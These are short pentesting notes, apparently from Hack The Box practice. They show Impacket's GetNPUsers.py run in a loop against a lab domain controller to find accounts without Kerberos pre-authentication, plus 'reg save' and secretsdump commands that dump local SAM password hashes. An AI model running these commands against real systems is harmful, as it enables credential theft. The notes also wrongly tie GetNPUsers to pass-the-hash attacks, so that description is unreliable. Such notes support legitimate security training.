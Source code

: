 ## GetNPUsers.py
- impacket GetNPUsers is a command-line tool within the Impacket suite, used for extracting Kerberos Pre-Authentication (PreAuth) users from a Windows domain. This tool helps in identifying potential attack vectors and identifying users that can be targeted for pass-the-hash (PtH) or pass-the-ticket (PtT) attacks.
- usage
	- -no-pass 
	- -dc-ip "IP address"
- One liner to paste user file
```
for user in $(cat users); do GetNPUsers.py -no-pass -dc-ip 10.10.10.161 htb/${user} | grep -v Impacket; done
```
## Secretdump
### dump secrets from local files (need to dump sam and system files)
reg save hklm\sam sam
reg save hklm\system system
```
impacket-secretsdump -sam <Sam_file> -system <system_file> local
```
